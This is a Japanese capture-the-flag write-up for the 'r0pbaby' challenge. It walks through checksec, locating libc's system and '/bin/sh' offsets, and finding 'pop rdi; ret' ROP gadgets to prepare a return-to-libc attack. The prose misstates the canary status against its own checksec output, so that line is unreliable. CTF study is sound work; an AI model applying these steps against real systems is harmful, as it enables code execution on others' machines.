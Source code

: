 # r0pbaby

## checksec 

```
checksec --file r0pbaby
```

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   r0pbaby
```

NX有効でカナリーも有効。
問題名からしてROPを使うのだろう。

## 実行

```bash
socat TCP-LISTEN:1234,reuseaddr,fork exec:./r0pbaby,stderr
```

してホスト側から以下のコメンドで実行

```
nc 192.168.33.12 1234
```

親切にlibcのアドレスなどを教えてくれる模様

```
Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 
```

## libc.so.6の場所を確認

```
ldd r0pbaby
```

`/lib/x86_64-linux-gnu/libc.so.6`にあるとわかる。

```
	linux-vdso.so.1 =>  (0x00007fff4b1b6000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007f43bddaf000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f43bd9e5000)
	/lib64/ld-linux-x86-64.so.2 (0x0000564f68f7f000)
```

---

libc.so.6のパスがわかったので、そのままsystem関数へのオフセットも調べる。

```
nm -D /lib/x86_64-linux-gnu/libc.so.6| grep system
```

`0000000000045390`らしい。

```
0000000000045390 T __libc_system
0000000000138810 T svcerr_systemerr
0000000000045390 W system
```

---

`"bin/sh"`のオフセットも調べる。

```
strings -a -tx /lib/x86_64-linux-gnu/libc.so.6 | grep sh$
```

`18cd57`らしい。

```
  11e62 inet6_opt_finish
  12d5b _IO_wdefault_finish
  12f86 bdflush
  13302 _IO_fflush
  13379 _IO_file_finish
  159c3 tcflush
  15c53 _IO_default_finish
 18a145 Trailing backslash
 18acf8 sys/net/ash
 18cd57 /bin/sh
 18e8e2 /bin/csh
 1c6e11 .gnu.hash
 1c711b .gnu.warning.__compat_bdflush
```


## rop gadegetの位置を調べる

```
rp -f /lib/x86_64-linux-gnu/libc.so.6 -r 1 | grep 'pop rdi'
```


`0x00021102`あたりを使えば良い。

```
0x0010741a: pop rdi ; call rax ;  (1 found)
0x000f9901: pop rdi ; jmp qword [rbp+rax*2-0x77] ;  (1 found)
0x000f994a: pop rdi ; jmp qword [rbp+rax*2-0x77] ;  (1 found)
0x00104052: pop rdi ; jmp rax ;  (1 found)
0x00037861: pop rdi ; rep ret  ;  (1 found)
0x0007926e: pop rdi ; rep ret  ;  (1 found)
0x0007f35b: pop rdi ; rep ret  ;  (1 found)
0x00116170: pop rdi ; rep ret  ;  (1 found)
0x00138d7d: pop rdi ; rep ret  ;  (1 found)
0x00021102: pop rdi ; ret  ;  (1 found)
0x0002111a: pop rdi ; ret  ;  (1 found)
0x00021142: pop rdi ; ret  ;  (1 found)
.
.
.

```


```
rp -f r0pbaby -r 1 | grep pop
```

`pop rdi` となっている`0x00000f23`を使えば良さそうである。

```
0x00000bf4: pop r14 ; ret  ;  (1 found)
0x00000f22: pop r15 ; ret  ;  (1 found)
0x00000ab8: pop rbp ; jmp rax ;  (1 found)
0x00000ab9: pop rbp ; jmp rax ;  (1 found)
0x00000aab: pop rbp ; ret  ;  (1 found)
0x00000ae8: pop rbp ; ret  ;  (1 found)
0x00000eb2: pop rbp ; ret  ;  (1 found)
0x00000f23: pop rdi ; ret  ;  (1 found)
0x00000bf5: pop rsi ; ret  ;  (1 found)
```